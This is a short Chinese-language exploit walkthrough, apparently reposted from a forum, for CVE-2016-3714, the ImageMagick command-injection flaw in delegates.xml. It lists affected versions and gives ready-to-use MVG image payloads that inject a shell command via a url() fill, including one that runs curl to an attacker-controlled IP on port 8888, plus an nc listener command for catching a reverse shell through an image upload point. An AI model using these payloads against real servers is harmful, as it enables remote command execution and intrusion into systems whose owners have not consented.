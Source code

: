 # （CVE-2016-3714）ImageMagick 命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2968](https://www.zhihuifly.com/t/topic/2968)

# （CVE-2016-3714）ImageMagick 命令执行漏洞

## 一、漏洞简介

/etc/ImageMagick/delegates.xml 将%s，%l加入到command里造成了命令执行

## 二、漏洞影响

ImageMagick 6.5.7-8 2012-08-17(手工测试风险存在)

ImageMagick 6.7.7-10 2014-03-06(手工测试风险存在)

低版本至6.9.3-9 released 2016-04-30

## 三、复现过程

### poc

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| command")'
pop graphic-context 
```

图片上传点，抓包，附上exp代码：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| curl 172.16.20.108:8888")'
pop graphic-context 
```

> ip：你要反弹的shell地址，2333端口号，服务器监听反弹shell。

```
nc -lvp ``8888 
```

![image](img/53c9f04a92f0d08fff065317db5fbac2.png)